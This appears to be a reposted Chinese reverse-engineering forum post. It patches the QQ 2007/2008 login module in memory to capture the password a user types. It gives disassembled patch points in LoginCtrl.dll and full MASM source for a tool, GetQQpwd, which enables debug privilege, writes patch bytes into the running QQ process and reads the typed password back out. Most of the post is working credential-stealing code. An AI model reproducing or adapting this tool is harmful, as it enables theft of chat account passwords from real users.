

# 修改 QQ 执行顺序,获取 QQ2008 最新版密码

> 原文：[`www.pediy.com/kssd/pediy10/61577.html`](https://www.pediy.com/kssd/pediy10/61577.html)

本文参考于 open\[xgc\]大侠的"利用 Debug Api 获得 QQ2007 密码",我只是换了语言换了方法,其实思路还是一样的.再次对 open\[xgc\]表示感谢.  
  
标 题: 修改 QQ 执行顺序,获取 QQ2008 最新版密码  
作 者: sLtYJ(4stone)  
版权声明: 本文纯属技术交流, 转载请注明作者并保持文章的完整, 谢谢!  
  
参考 open\[xgc\]大侠的文章,找到 2007 7.1.643.400 版及 2008 8.0.714.201 版本 QQ 的密码出现点,修改代码跳转至空白位置,然后将代码按个写入自己找到的空白位置即可.  
  
列出 2007 办部分修改后的代码:  
021A638A  |> /43            /INC EBX  
021A638B  |. |6A 01         |PUSH 1  
021A638D  |. |8BC3          |MOV EAX, EBX  
021A638F  |. |0FAFC6        |IMUL EAX, ESI  
021A6392     |8A4C08 FF     MOV CL, BYTE PTR DS:\[EAX+ECX\-1\]  
021A6396     |E9 4F240100   JMP LoginCtr.021B87EA  //修改点,跳至空白点  
021A639B     |90            NOP  
021A639C     |90            NOP  
021A639D     |90            NOP  
021A639E     |90            NOP  
021A639F     |90            NOP  
021A63A0  |. |50            |PUSH EAX  
021A63A1     |884D D4       MOV BYTE PTR SS:\[EBP\-2C\], CL  
021A63A4     |E8 4AD30000   CALL LoginCtr.021B36F3  
021A63A9  |. |8B57 44       |MOV EDX, DWORD PTR DS:\[EDI+44\]  
021A63AC  |. |83C4 0C       |ADD ESP, 0C  
021A63AF  |. |8B0A          |MOV ECX, DWORD PTR DS:\[EDX\]  
021A63B1  |. |8B72 0C       |MOV ESI, DWORD PTR DS:\[EDX+C\]  
021A63B4  |. |8B41 F8       |MOV EAX, DWORD PTR DS:\[ECX\-8\]  
021A63B7  |. |99            |CDQ  
021A63B8  |. |F7FE          |IDIV ESI  
021A63BA     |3BD8          CMP EBX, EAX  
021A63BC    ^\\7C CC         JL SHORT LoginCtr.021A638A  
  
补上自己的代码:  
021B87EA      52            PUSH EDX  
021B87EB      BA 56CC1200   MOV EDX, 12CC56  
021B87F0      03D3          ADD EDX, EBX    //借用 QQ 程序本身的 EBX 计数器  
021B87F2      36:880A       MOV BYTE PTR SS:\[EDX\], CL   //向 12CC56 开始逐个写入密码  
021B87F5      5A            POP EDX  
021B87F6      8D45 D4       LEA EAX, DWORD PTR SS:\[EBP\-2C\]  
021B87F9      50            PUSH EAX  
021B87FA      8D85 58FFFFFF LEA EAX, DWORD PTR SS:\[EBP\-A8\]  
021B8800    ^ E9 9BDBFEFF   JMP LoginCtr.021A63A0  //跳回原处继续执行  
021B8805      90            NOP  
  
  
用 ASM 代码实现如下:  
  
GetQQpwd.Asm

引用: ;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
; Dialog.asm  
; 对话框资源使用的模板代码  
    .386  
    .model flat, stdcall  
    option casemap :none  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
include    GetQQpwd.inc  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
; 代码段  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
        .code  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
StrLen PROC uses edi String:DWORD  
        mov edi,String  
        mov al,0  
        mov ecx,0FFFFFFFFh  
        repne scasb  
        sub ecx,0FFFFFFFFh  
        neg ecx  
        dec ecx  
        mov eax,ecx  
        ret  
StrLen ENDP  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
;    权限提升  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
\_EnablePrivilege proc szPriv:DWORD, bFlags:DWORD  
    LOCAL      hToken  
    LOCAL       tkp : TOKEN\_PRIVILEGES  
  
    invoke     GetCurrentProcess  
    mov       edx, eax  
    invoke     OpenProcessToken, edx, TOKEN\_ADJUST\_PRIVILEGES or TOKEN\_QUERY, addr hToken  
    invoke     LookupPrivilegeValue, NULL, szPriv, addr tkp.Privileges.Luid  
    mov      tkp.PrivilegeCount, 1  
    xor       eax, eax  
  
    .if     bFlags  
          mov    eax, SE\_PRIVILEGE\_ENABLED  
    .endif  
  
    mov       tkp.Privileges.Attributes, eax  
    invoke     AdjustTokenPrivileges, hToken, FALSE, addr tkp, 0, 0, 0  
    push       eax  
    invoke     CloseHandle, hToken  
    pop       eax  
  
    ret  
\_EnablePrivilege endp  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
\_ProcTimer    proc    uses ebx edi esi \_hWnd,\_uMsg,\_idEvent,\_dwTime  
  
        .if    !hQQ  
            invoke    FindWindowA,ctxt("#32770"),ctxt("QQ 用户登录")  
            .if    eax  
                invoke    GetWindowThreadProcessId,eax,addr QQpid  
                invoke    OpenProcess,PROCESS\_ALL\_ACCESS,FALSE,QQpid  
                mov    hQQ,eax  
                invoke    SetWindowText,hWinMain,ctxt("QQ 已启动-请输入密码并点登录")  
                invoke      CreateToolhelp32Snapshot,TH32CS\_SNAPALL,QQpid  
                mov         hSnapShot,eax  
                mov         myModule.dwSize, sizeof myModule  
                invoke    Module32First,hSnapShot,addr myModule  
                jmp    Cmp1  
            NextModule:  
                invoke    Module32Next,hSnapShot,addr myModule  
            Cmp1:  
                invoke    lstrcmp,addr myModule.szModule,ctxt("LoginCtrl.dll")  
                cmp    eax,0  
                jnz     NextModule  
                mov    ebx,myModule.modBaseAddr  
                add    ebx,16396h;2008:16DE0h,2007:16396h  
                invoke    ReadProcessMemory,hQQ,ebx,addr dbOldBytes,2,NULL  
                mov    ax,word ptr dbOldBytes  
                .if    ax == word ptr db2007  
                    invoke    WriteProcessMemory,hQQ,ebx,addr dbPatched1,10,NULL  
                    add    ebx,12454h;2008:134EAh 2007:12454h  
                    invoke    WriteProcessMemory,hQQ,ebx,addr dbPatched2,28,NULL  
                    invoke    WriteProcessMemory,hQQ,12B000h,0,16,NULL  
                .elseif    ax == word ptr db2008  
                    add    ebx,0A4Ah  
                    invoke    WriteProcessMemory,hQQ,ebx,addr dbPatched3,10,NULL  
                    add    ebx,134EAh  
                    invoke    WriteProcessMemory,hQQ,ebx,addr dbPatched4,27,NULL  
                    invoke    WriteProcessMemory,hQQ,12B000h,addr dbNull,16h,NULL  
                .endif  
            .endif  
        .else  
            invoke    ReadProcessMemory,hQQ,12B000h,addr QQpwd,sizeof QQpwd,NULL  
            invoke    StrLen,addr QQpwd  
            .if    eax  
                invoke    SetDlgItemText,hWinMain,IDC\_EDT1,addr QQpwd  
                invoke    WriteProcessMemory,hQQ,12B000h,addr dbNull,16h,NULL  
            .endif  
                invoke    FindWindow,ctxt("#32770"),ctxt("QQ 用户登录")  
            .if    !eax  
                mov    hQQ,0  
                invoke    SetWindowText,hWinMain,ctxt("QQ 未运行")  
            .endif  
        .endif  
        ret  
  
\_ProcTimer    endp  
\_ProcDlgMain    proc    uses ebx edi esi hWnd,wMsg,wParam,lParam  
  
        mov    eax,wMsg  
        .if    eax == WM\_COMMAND  
            mov    eax,wParam  
            .if    ax == IDC\_btExit  
                invoke    EndDialog,hWnd,NULL  
            .endif  
        .elseif    eax == WM\_CLOSE  
            invoke    EndDialog,hWnd,NULL  
        .elseif    eax == WM\_INITDIALOG  
            invoke    LoadIcon,hInstance,ICO\_MAIN  
            invoke    SendMessage,hWnd,WM\_SETICON,ICON\_BIG,eax  
            invoke    SetTimer,NULL,NULL,1000,addr \_ProcTimer  
            mov    idTimer,eax  
            push    hWnd  
            pop    hWinMain  
            invoke     \_EnablePrivilege,ctxt("SeDebugPrivilege"), TRUE  
            invoke    SendDlgItemMessage,hWnd,IDC\_EDT1,EM\_SETREADONLY,TRUE,0  
            invoke      SetWindowPos,hWnd,HWND\_TOPMOST,0,0,0,0,SWP\_NOMOVE or SWP\_NOSIZE  
        .else  
            mov    eax,FALSE  
            ret  
        .endif  
        mov    eax,TRUE  
        ret  
  
\_ProcDlgMain    endp  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
start:  
        invoke    GetModuleHandle,NULL  
        mov    hInstance,eax  
        invoke    InitCommonControls  
        invoke    DialogBoxParam,hInstance,DLG\_MAIN,NULL,offset \_ProcDlgMain,NULL  
        invoke    ExitProcess,NULL  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
        end    start 

GetQQpwd.inc

引用: ;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
; Include 文件定义  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
include        windows.inc  
include        user32.inc  
includelib        user32.lib  
include        kernel32.inc  
includelib        kernel32.lib  
include        advapi32.inc  
includelib        advapi32.lib  
include        comctl32.inc  
includelib        comctl32.lib  
include        psapi.inc  
includelib        psapi.lib  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
; Equ 等值定义  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
ID\_TIMER1    equ    10  
DLG\_MAIN    equ    1  
IDC\_EDT1        equ     2  
ICO\_MAIN     equ    99  
IDC\_btExit    equ    1000  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
; 数据段  
;>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>  
        .data?  
  
hInstance        dd        ?  
hWinMain        dd        ?  
idTimer        dd        ?  
QQpid        dd        ?  
hQQ        dd        ?  
modArr        db        1024 dup(?)  
dwNumMod    dd        ?  
myModule                 MODULEENTRY32  <>  
hSnapShot    dd        ?  
QQpwd        db        22 dup(?)  
dbOldBytes    db        2 dup (?)  
  
        .data  
          
db2007        db        8Dh,45h  
db2008        db        6Ch,88h      
dbPatched1    db        0E9h,4Fh,24h,01h,00h,90h,90h,90h,90h,90h  
dbPatched2    db        52h, 0BAh, 0FFh, 0AFh, 12h, 00h, 03h, 0D3h, 36h, 88h, 0Ah, 5Ah, 8Dh, 45h, 0D4h, 50h, 8Dh, 85h, 58h, 0FFh, 0FFh, 0FFh, 0E9h, 9Bh, 0DBh, 0FEh, 0FFh, 90h  
dbPatched3    db        0E9h, 0E5h, 34h, 01h, 00h, 90h, 90h, 90h, 90h, 90h  
dbPatched4    db        52h, 0BAh, 0FFh, 0AFh, 12h, 00h, 03h, 0D3h, 36h, 88h, 0Ah, 5Ah, 8Dh, 45h, 0D4h, 50h, 8Dh, 85h, 58h, 0FFh, 0FFh, 0FFh, 0E9h, 05h, 0CBh, 0FEh, 0FFh  
dbNull        db        00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h,00h 

注:刚学 ASM 不久,代码可能显得很乱很烦,各位看官多多包涵.  
  

上传的附件
|  || GetQQpwd.rar  
 |